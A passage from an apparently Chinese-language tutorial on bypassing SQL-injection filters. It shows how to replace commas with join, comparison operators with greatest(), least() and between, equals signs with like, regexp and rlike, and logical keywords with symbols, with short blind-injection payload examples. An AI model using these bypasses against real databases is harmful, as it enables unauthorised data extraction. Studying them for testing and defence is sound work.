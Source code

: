 注意一下,用offset的时候0与1是反过来的

select 1,2,3之类的中间的逗号可以用join来绕过

![image-20210725113628028](images/8.png)

```
1. union select 1,2     *#等价于*
2. union select * from (select 1)a join (select 2)b
```

但是注意使用join的时候必须要给他重命名像上面的(select 1)a不加这个a会报错

## 过滤比较符号<>

在sql盲注的时候经常要比较ASCII码值的大小来猜解,但是当比较符号被过滤后,我们是不是就不能猜解了啊

当然不是,方法还是多的我们可以用函数来代替

```
greatest()//返回最大值
least()//返回最小值
```

```
select * from users where id=1 and ascii(substr(database(),1,1))>64
这条语句当比较符号被过滤后可以用以下语句替代
select * from users where id=1 and greatest(ascii(substr(database(),1,1)),64)=64
```

 ![image-20210726130924600](images/9.png)

除此之外还可以用between

 ![image-20210726131910268](images/10.png)

## 过滤=

可以发现,上面的between其实也可以绕过等号,其实`between 1 and 1就等价于=1`

除此之外还可以用regexp,like,rlike进行绕过,或者结合使用<和>,

![image-20210726133202550](images/11.png)

如下图

![image-20210726133329509](images/12.png)

可以判断第一位的ASCII码就是116

## or,and，xor绕过

```
and=&&  
or=||   
xor=|   
not=!
```
